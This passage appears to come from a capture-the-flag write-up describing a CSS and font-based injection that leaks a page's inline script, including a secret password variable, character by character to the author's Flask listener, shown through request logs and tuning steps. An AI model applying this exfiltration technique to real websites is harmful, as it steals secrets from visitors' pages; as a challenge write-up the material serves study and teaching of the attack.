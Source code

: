  ![Formatting Looks Funny](./styles_formatting)


Given the formatting issues we saw, I decided to pass the payload through a [minifier](https://www.toptal.com/developers/cssminifier/) and URLEncoded it.

At this point, we started getting responses that weren't in alphabetical order and did roughly appear to correspond to the beginning of the script, but were still somewhat jumbled:
```
127.0.0.1 - - [25/May/2022 23:52:47] "GET /%3D HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:47] "GET /%22 HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:47] "GET /; HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /, HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /%2F HTTP/1.1" 302 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /+ HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /a HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /v HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /r HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /x HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /6 HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /C HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /g HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /q HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /b HTTP/1.1" 404 -
``` 

For comparison, the actual script block contained:
```javascript
var x = "6gqab1";

function liberate(){
	if (confirm('Are you sure you want to free this NFT')){
		const xhttp = new XMLHttpRequest();
		xhttp.open("POST","publish")
		xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
		xhttp.send("pass="+x); 
	}
}

```

The jumbling of requests made me think that we might be dealing with some sort of minor race condition, so we added a `time.sleep(1)` to the Flask function generating our font responses. This produced output that looked a lot better:

```
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/v HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/a HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/r HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/x HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/%22 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/%3D HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/6 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/g HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/q HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/b HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/1 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/; HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/f HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/u HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/n HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/c HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/t HTTP/1.1" 200 -
```
